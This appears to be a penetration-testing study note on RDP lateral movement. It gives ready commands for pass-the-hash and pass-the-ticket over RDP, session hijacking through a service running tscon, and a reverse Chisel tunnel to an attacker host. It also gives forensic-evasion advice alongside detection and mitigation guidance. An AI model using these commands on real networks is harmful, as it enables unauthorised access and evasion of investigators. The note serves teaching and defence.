

# Lateral Movement via RDP Pass-Through & Hijacking

## 1. Introduction

The Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, allowing users a graphical interface to connect to another computer over a network connection. By default, it operates on TCP/UDP port 3389. RDP is an ubiquitous administration tool in Windows environments, making it highly attractive for attackers blending in with normal administrative traffic ("Living off the Land").

Unlike command-line lateral movement tools (like PsExec or WinRM), RDP provides a full GUI session. While this limits automation, it enables adversaries to interact with custom software, bypass restrictive execution environments, and interactively exploit local applications. More advanced techniques like **RDP Hijacking** and **Pass-the-Hash over RDP (Restricted Admin Mode)** have transformed RDP into a formidable post-exploitation vector.

## 2. RDP Architecture and NLA

Modern RDP connections rely on **Network Level Authentication (NLA)**. NLA requires the connecting user to authenticate themselves before a full session is established with the server, defending against Denial of Service (DoS) attacks and restricting unauthorized access to the logon screen.

NLA utilizes the CredSSP (Credential Security Support Provider) protocol, which under the hood uses Kerberos or NTLM for authentication. This architecture creates opportunities for attackers to utilize hashes and tickets rather than just plaintext passwords.

## 3. Visualizing RDP Attacks



## 4. Advanced RDP Attack Techniques

### 4.1 Restricted Admin Mode (Pass-the-Hash over RDP)
Normally, RDP requires a plaintext password. However, Windows 8.1 / Server 2012 R2 introduced **Restricted Admin Mode**. When enabled, it allows users to connect to a remote host without sending their plaintext credentials over the network, effectively enabling Pass-the-Hash for RDP.

**Enabling Restricted Admin Mode (requires local admin on target):**
```powershell
# Modify the registry on the target to allow Restricted Admin Mode
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0 /f
```

**Executing Pass-the-Hash over RDP (from Kali):**
```bash
xfreerdp /v:192.168.1.100 /u:Administrator /pth:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 /cert:ignore
```

### 4.2 Pass-the-Ticket (PtT) over RDP
If Kerberos is preferred, tickets can be injected and used to establish RDP sessions.

**From Windows using Rubeus:**
```powershell
# Inject the ticket into the current session
Rubeus.exe ptt /ticket:admin.kirbi
# Connect using native mstsc.exe
mstsc.exe /v:dc01.domain.local
```

### 4.3 RDP Session Hijacking
If an attacker has achieved `SYSTEM` privileges on a machine, they can hijack an existing or disconnected RDP session belonging to another user (e.g., a Domain Admin) without needing their password.

**Step 1: List active sessions**
```cmd
query user
# Output:
# USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
# >administrator        console             1  Active      none   10/24/2023 10:00 AM
# da_user               rdp-tcp#2           2  Active         5   10/24/2023 11:30 AM
```

**Step 2: Hijack the session (as SYSTEM)**
Using `tscon.exe` (Terminal Services Console), the attacker connects their current session to the target session ID.
```cmd
# Create a service to execute tscon as SYSTEM to avoid session zero isolation issues
sc create rdphijack binpath= "cmd.exe /k tscon 2 /dest:console"
net start rdphijack
```
*Instantly, the attacker's screen will refresh, and they will be dropped into the GUI session of `da_user` without any authentication.*

### 4.4 Reverse RDP Tunneling (Chisel / Socks)
Often, inbound RDP (3389) is blocked from the internet or restricted subnets. Attackers establish a reverse SOCKS proxy (using Chisel or Ligolo-ng) to tunnel RDP traffic through an established C2 channel.

```bash
# On Attacker (Kali): Start Chisel server
chisel server -p 8000 --reverse
# On Target: Start Chisel client and forward traffic
chisel.exe client attacker-ip:8000 R:socks
# On Attacker: Configure proxychains and connect
proxychains xfreerdp /v:127.0.0.1 /u:Admin /p:Pass
```

## 5. OPSEC Considerations

### 5.1 Bitmap Caching
To optimize bandwidth, RDP clients cache sections of the screen (bitmaps) locally. Forensic investigators can extract these bitmap caches from the attacker's machine to reconstruct the GUI session they viewed.
*Evasion:* Run tools with bitmap caching disabled (`/bpp:8 /cache-bitmap:false` in xfreerdp) if operating from an ephemeral environment.

### 5.2 Artifacts and Event Logs
RDP lateral movement generates significant telemetry:
- **Event ID 4624 (Logon Type 10):** Remote Interactive Logon. Highly scrutinized by SOC teams.
- **Event ID 4778 / 4779:** Session reconnected / disconnected.
- **Event ID 1149 (TerminalServices-RemoteConnectionManager):** Network connection established. Logs source IP and username.
- **Registry Artifacts:** Terminal Server Client registry keys cache the IP addresses of recent connections.

## 6. Detection and Mitigation Strategies

### 6.1 Detection Metrics
- **Anomalous Logons:** Monitor Event ID 4624 Logon Type 10 from non-standard jump boxes or administrator IP ranges.
- **Restricted Admin Usage:** Hunt for Event ID 4624 with Logon Type 3, but where the process name is `mstsc.exe` or authentication relies heavily on CredSSP without interactive credentials.
- **Process Lineage:** Monitor for `tscon.exe` being executed by `SYSTEM` or via `cmd.exe` or `services.exe`, which strongly indicates session hijacking.

### 6.2 Mitigation Metrics
- **Restrict RDP Access:** Use Group Policy to enforce the "Allow log on through Remote Desktop Services" right exclusively to dedicated admin groups. 
- **Network Segmentation:** Implement strict firewall rules ensuring RDP traffic can only originate from dedicated secure admin workstations (SAWs) or PAM (Privileged Access Management) solutions.
- **Disable Disconnected Sessions:** Configure GPOs to automatically log off disconnected RDP sessions after a short timeout (e.g., 15 minutes) to prevent session hijacking.
- **Monitor Registry Changes:** Alert on modifications to the `DisableRestrictedAdmin` registry key.

## 7. Chaining Opportunities
- **[[17 - Credential Dumping Windows]]**: RDP provides the perfect GUI environment to drop heavily obfuscated credential dumping tools or interactively manipulate Task Manager to dump LSASS.
- **[[12 - Port Forwarding and Pivoting]]**: Combine RDP with SOCKS proxies to pivot deep into internal networks utilizing stolen credentials.
- **[[16 - Token Stealing with Incognito]]**: Inside the RDP session, impersonate tokens of other processes running within the GUI context.

## 8. Related Notes
- [[13 - Lateral Movement WinRM]]
- [[14 - Lateral Movement PsExec SMBExec]]
- [[01 - Windows Access Controls and Privileges]]
- [[10 - Bypassing Antivirus and EDR]]
